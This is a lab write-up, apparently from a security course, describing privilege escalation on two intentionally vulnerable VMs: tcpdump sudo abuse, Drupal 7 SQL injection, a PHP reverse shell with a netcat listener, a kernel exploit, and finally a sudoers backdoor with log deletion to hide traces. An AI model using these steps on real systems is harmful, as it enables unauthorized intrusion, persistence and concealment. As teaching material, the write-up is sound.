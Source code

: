 ====================
Privilege Escalation
====================

.. contents::

.. sectnum::

Introduction
============
Two vulnerable VMs were provided, with the objective of achieving root access via privilege escalation.

Methodology
===========

Wordpress Webdeveloper
----------------------

tcpdump 
~~~~~~~
The ``webdeveloper`` account has ``sudo`` privilege to execute ``/usr/bin/tcpdump``. This can be exploited to execute commands with elevated privileges [#]_.

.. [#] https://gtfobins.github.io/gtfobins/tcpdump/

``webdeveloper`` was then given full ``sudo`` privileges with the following commands::

   echo "usermod -aG sudo webdeveloper" > /tmp/esc
   chmod +x /tmp/esc
   sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/esc -Z root

.. figure:: images/webdeveloper-add-sudo.png
  :width: 100%
  :alt: Runnning usermod with root privileges

  Running usermod with root privileges to add webdeveloper into the sudoers group

After logging out and logging in, ``webdeveloper`` will have access to full ``sudo`` privileges.

.. figure:: images/webdeveloper-sudo.png
  :width: 100%
  :alt: sudo make me a sandwich

  Viewing the normally restricted /etc/shadow

Vulnerable VM 2
---------------

Host Discovery
~~~~~~~~~~~~~~
The IP address of the target on the network was elucidated using ``nmap -sn``::

   nmap -sn <target network/netmask>

.. figure:: images/nmap-sn.png
  :width: 100%
  :alt: Host discovery

  -sn (previously -sP) for ping scan without following up with port scan.

Target Reconnaissance
~~~~~~~~~~~~~~~~~~~~~
Preliminary information on the target was obtained using ``nmap -A``::

   nmap -A <target ip>

.. figure:: images/nmap-A.png
  :width: 100%
  :alt: Target reconnaissance

  -A for OS and version detection, script scanning, and traceroute

``-A`` is a convenience option that includes OS detection (``-O``), service and version detection (``-sV``), script scanning (``-sC``), and traceroute (``--traceroute``).

We can see that an Apache http daemon is running on the open port 80. It is hosting a Drupal 7 CMS, on a Linux kernel version between 3.2 - 4.8. Some files and directories listed in ``robots.txt`` seem to be directly accessible via http.

Web Services
~~~~~~~~~~~~
Since there is a webserver on the target, more information can be gleaned about the web services it is running::

    whatweb -v <target url/ip>

.. figure:: images/whatweb-v.png
  :width: 100%
  :alt: Whatweb

  ``-v`` for increased verbosity

The website is also running PHP 5.5.9.

robots.txt
~~~~~~~~~~
``robots.txt`` exposes the addresses of some files accessible via http. Examining ``CHANGELOG.txt`` reveals the exact Drupal version.

.. figure:: images/curl-changelog.png
  :width: 100%
  :alt: I'm Not a Robot

  Exploiting information leaked by robots.txt

Searchsploit
~~~~~~~~~~~~
Queries for the web services were run using ``searchsploit`` to look for suitable vulnerabilities to exploit.

   searchsploit -e <term>

.. figure:: images/searchsploit-e.png
  :width: 100%
  :alt: Searchsploit

  ``-e`` to match exact search terms and reduce false positive results.

It looks like Drupal 7.30 is vulnerable to SQL Injection.

SQL Injection
~~~~~~~~~~~~~
The exploit for SQL injection was examined to see if it is suitable for gaining access to the Drupal CMS. It seems to create a Drupal user, but requires the ``drupalpass`` module from ``https://github.com/cvangysel/gitexd-drupalorg/blob/master/drupalorg/drupalpass.py``.

.. figure:: images/sql-injection.png
  :width: 100%
  :alt: Contents of 34984.py

  Looks like the exploit creates a Drupal user account.

``drupalpass.py`` was obtained and placed in the same working directory as ``34984.py``. The exploit was then executed as demonstrated in the source code.

.. figure:: images/34984.png
  :width: 100%
  :alt: Drupal SQL injection

  Success!

A new Drupal user with administrator access was created.

.. figure:: images/drupal-editor.png
  :width: 100%
  :alt: Drupal administrator

  Just an editor, nothing to be suspicious of.

PHP Reverse Shell
~~~~~~~~~~~~~~~~~
Since Drupal uses PHP, a PHP reverse shell [#]_ could possibly be used as an attack vector.

.. [#] http://pentestmonkey.net/tools/web-shells/php-reverse-shell

It turns out that there is an option in Drupal 7 to allow PHP code execution in the body of a post. [#]_

.. [#] https://www.drupal.org/docs/7/howtos/add-php-code-to-the-body-of-a-drupal-7-block

The Drupal 7 documentation was followed to enable the ``PHP Filter`` in the ``Modules`` subsection.

.. figure:: images/drupal-php-filter.png
  :width: 100%
  :alt: Enable PHP Filter module

Administrators were then given the permission to ``Use the PHP code text format`` under the ``People/Permissions`` subsection.

.. figure:: images/drupal-use-php-code.png
  :width: 100%
  :alt: Give permissions to use PHP code

A ``Basic page`` was created by clicking ``Add content``, with the code for the PHP reverse shell pasted into the content body, modifying the source to the appropriate IP address and port as in its instructions. The text format was set to ``PHP Code`` so that it will execute when loaded.

``nc`` (``netcat``) was used to create an open port to listen to incoming traffic from the reverse shell::

   nc -lvnp <port>

   -l listen for inbound connects
   -v verbose
   -n numeric-only IP address; avoids a DNS lookup
   -p local port number

The PHP reverse shell connected once the posted page was loaded.

.. figure:: images/nc-lvnp.png
  :width: 100%
  :alt: Reverse shell connected

Privilege Escalation
~~~~~~~~~~~~~~~~~~~~
The PHP reverse shell script has conveniently included a call to ``uname -a`` upon process opening. We can identify that the server is running ``Linux 3.13``.

``searchsploit`` was then used again to look for suitable kernel vulnerabilities to exploit.

The vulnerabilities are checked if they will result in privilege escalation.

.. figure:: images/searchsploit-linux.png
  :width: 100%
  :alt: Searchsploit and reading source code of exploits in vim

  Checking suitability of kernel explots.

It looks like ``Linux 3.13`` is susceptible to an ``overlayfs`` attack which will result in root privilege escalation. The exploit does not seem to require additional dependencies to execute.

The source code for the exploit has to be transferred over to the target server. In order to do that, ``nc`` (``netcat``) is once again used.

Another port is opened and set to listen on the target server, redirecting any incoming stream to the target location::

   nc -lvnp <target port> > /tmp/<file output>

The ``/tmp`` directory is chosen as it has global read-write-execute access permissions for executing the exploit.

The attacker will then connect to the open port to initiate transfer.

   nc <target ip> <target port> < <file input>

.. figure:: images/netcat-file-transfer.png
  :width: 100%
  :alt: Using netcat to transfer data

  The exploit is transferred from attacker (bottom) to target (top).

Once the file is transferred, it is compiled using ``gcc`` and executed, resulting in privilege escalation to root.

.. figure:: images/root-exploit.png
  :width: 100%
  :alt: Privilege escalation exploit

  Root access granted.

Backdoor and Clean Up
~~~~~~~~~~~~~~~~~~~~~
A new user can then be created and added to the ``/etc/sudoers`` file as a backdoor::

   adduser <username>
   echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers

.. figure:: images/printer-spooler.png
  :width: 100%
  :alt: Appending to /etc/sudoers to grant root privilege to backdoor user

  The innocuous ``printer-spooler`` is granted root privileges.

An SSH server can be installed. Server logs and the Drupal page with the PHP reverse shell exploit can then be removed to hide traces of the hack.

Conclusion
==========
By systematically exploiting software and OS vulnerabilities, root access was obtained via privilege escalation in two VMs. This highlights the importance of keeping system software up to date in order to minimize the attack surfaces that hackers might use to gain unauthorized access to the system.
